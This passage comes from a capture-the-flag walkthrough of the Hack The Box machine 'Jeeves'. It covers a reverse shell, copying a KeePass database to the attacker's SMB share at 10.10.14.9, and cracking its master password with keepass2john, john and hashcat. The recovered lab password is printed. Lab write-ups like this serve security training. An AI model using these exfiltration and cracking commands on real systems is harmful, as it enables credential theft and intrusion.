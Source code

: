 After preparing a listener in kali on port 443, we click on “Run” to run the script and return to the shell.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%205.png)

# Post Exploration

We gain shell with the user `jeeves\kohsuke`.

## **Local Enumeration**

In `C:\Users\kohsuke\Documents` there is a database of passwords.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%206.png)

## Privilege Escalation

Let's download the **CEH.kdbx** file to kali and try to crack it with **john the ripper**.

Download:

**On kali:** `impacket-smbserver share . -smb2support`

**In target:** `copy CEH.kdbx [//10.10.14.9/share/](https://10.10.14.9/share/)`

To crack the password with john, you first need to go through keepass2john, which transforms it into a file interpretable by john.

```bash
keepass2john CEH.kdbx > hash-kdbx
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%207.png)

```bash
john hash-kdbx -wordlist=/usr/share/wordlists/rockyou.txt
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%208.png)

> Pass: **moonshine1**
> 

**Alternativa:** Usando Hashcat para quebrar

```bash
hashcat hash-kdbx --user /usr/share/wordlists/rockyou.txt
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%209.png)

We will use the `keepassx` tool to open the database

```bash
keepassx CEH.kdbx
```
